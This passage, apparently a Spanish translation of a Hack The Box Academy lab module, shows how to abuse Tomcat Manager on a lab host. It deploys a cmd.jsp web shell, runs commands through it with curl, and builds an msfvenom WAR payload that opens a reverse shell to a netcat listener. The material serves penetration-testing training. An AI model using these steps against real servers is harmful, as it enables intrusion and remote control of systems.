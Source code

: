 ![](https://academy.hackthebox.com/storage/modules/113/war_deployed.png)

Si hacemos clic en `backup`, seremos redirigidos a `http://web01.inlanefreight.local:8180/backup/` y obtendremos un

 error `404 Not Found`. Necesitamos especificar también el archivo `cmd.jsp` en la URL. Navegar a `http://web01.inlanefreight.local:8180/backup/cmd.jsp` nos presentará un web shell que podemos usar para ejecutar comandos en el servidor Tomcat. Desde aquí, podríamos actualizar nuestro web shell a un shell reverso interactivo y continuar. Como en ejemplos anteriores, podemos interactuar con este web shell a través del navegador o usando `cURL` en la línea de comandos. ¡Prueba ambos!

```r
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id

<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
Command: id<BR>
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

</pre>
</BODY></HTML>
```

Para limpiar después de nosotros, podemos volver a la página principal del Tomcat Manager y hacer clic en el botón `Undeploy` junto a la aplicación `backup` después, por supuesto, de anotar el archivo y la ubicación de la carga para nuestro informe, que en nuestro ejemplo es `/opt/tomcat/apache-tomcat-10.0.10/webapps`. Si hacemos un `ls` en ese directorio desde nuestro web shell, veremos el archivo `backup.war` cargado y el directorio `backup` que contiene el script `cmd.jsp` y `META-INF` creado después de que la aplicación se despliegue. Hacer clic en `Undeploy` generalmente eliminará el archivo WAR cargado y el directorio asociado con la aplicación.

También podríamos usar `msfvenom` para generar un archivo WAR malicioso. El payload [java/jsp_shell_reverse_tcp](https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/payloads/singles/java/jsp_shell_reverse_tcp.rb) ejecutará un shell reverso a través de un archivo JSP. Navega a la consola de Tomcat y despliega este archivo. Tomcat extraerá automáticamente el contenido del archivo WAR y lo desplegará.

```r
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war

Payload size: 1098 bytes
Final size of war file: 1098 bytes
```

Inicia un listener de Netcat y haz clic en `/backup` para ejecutar el shell.

```r
nc -lnvp 4443

listening on [any] 4443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 45224

id

uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```
